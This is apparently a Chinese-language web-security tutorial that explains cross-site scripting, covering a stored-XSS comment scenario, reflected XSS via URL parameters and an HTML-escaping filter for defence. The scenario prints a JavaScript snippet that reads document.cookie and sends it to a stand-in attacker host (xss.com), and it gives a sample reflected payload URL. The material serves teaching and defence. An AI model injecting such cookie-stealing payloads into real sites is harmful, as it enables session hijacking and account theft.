

## XSS(Cross-Site Scripting)
`xss`攻击中文名叫做跨站脚本攻击，其中两个关键词，一个是`跨站`, 一个是`脚本`。 `跨站`意味着攻击者在别的主机上进行了某些操作，然后另一个主机上的用户在不知觉的情况下发生了不知情的意料之外的事。也中模式决定了攻击只可能发生在动态网站上，纯静态的网站无法被攻击。`脚本`意味着客户端的代码遭到了篡改或者注入。因此，防范`xss`攻击的方法就是两种：
  1. 网站做成纯静态的。
  2. 防止代码的注入或者串改。

显而易见，第一种方法是不合实际的。那么就需要在第二种方案上下功夫。

### 攻击场景
假设你是一个黑客，你发现网站A上有一个提交评论的输入框。如下图：


这时候你输入了这么一段代码：
```html

```
然后你在`xss.com`的网站下放了这么一个`xss.js`的文件
```js
  (function () {
    const cookie = document.cookie
    const image = new Image()
    image.src = `//xss.com/getCookie?cookie=${cookie}`
  })()
```
假设一个网站A的正常用户访问了展示评论列表的页面时，如果你在评论框里输入的内容没有经过过滤就直接展示的情况下。那么就会在评论列表页插入一个`img`标签，由于这个`img`的`src`指向的是一个无效的地址，那么就会触发`onerror`事件，从而去加载`xss.com/xss.js`文件。而`xss`干的事就是将你的`cookie`发送到指定的网站。从而完成一次`xss`攻击。

黑客拿到了你的`cookie`就可以通过这个`cookie`访问你在A网站的账号，从而盗取信息。

### `xss`攻击类型
`xss`攻击主要有两种类型
- 存储型攻击
- 反射性攻击

上面那个场景说的就是存储新攻击，攻击者将恶意的脚本通过提交评论等途径存储到服务器，当某个用户访问页面时，如果该页面的信息是从存储了恶意代码的数据库里拉取的，便有可能发生`xss`攻击。反射性攻击主要做法是将脚本代码加入URL地址的请求参数里，比如：
```
http://xss.demo?a=<script>alert(document.cookie)</script>
```
如果一个页面里的脚本会去解析`URL`里的数据，并不做过滤进展示在页面，便会发生以上攻击。

### 防范
防范`xss`攻击的主要方式就是对特殊字符进行过滤。无论是在用户输入还是在页面展示时都进行过滤。当然你也可以设置一些白名单，对某些信任的内容不进行过滤。比如你可以这样对内容进行过滤：
```js
function xssFilter(str) {
  const escapeMap = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '`': '&#x60;'
  }
  const keysReg = new RegExp(Object.keys(escapeMap).join('|'), 'g')
  return str.replace(keysReg, key => escapeMap[key])
}
```
